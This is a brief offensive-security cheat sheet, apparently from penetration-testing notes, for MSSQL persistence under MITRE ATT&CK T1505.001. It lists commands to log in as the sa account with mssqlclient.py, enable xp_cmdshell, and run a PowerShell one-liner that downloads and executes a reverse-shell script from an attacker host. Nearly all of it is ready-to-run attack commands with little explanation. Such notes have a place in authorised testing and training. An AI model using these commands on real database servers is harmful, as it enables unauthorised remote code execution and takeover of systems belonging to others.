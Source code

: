 ```yaml
---
description: MITRE ATT&CK, Persistence, Sub-technique T1505.001
---
```


# SQL Stored Procedures

### Example Usage

#### Basic usage:

```bash
python3 mssqlclient.py sa@$ip
```

#### Configure xp\_cmdshell:

```bash
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

#### Enable Code Execution:

```bash
enable_xp_cmdshell
```

#### Obtaining a reverse shell from mssqlclient.py:&#x20;

```bash
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://$ip:8080/revshell.ps1\")
```
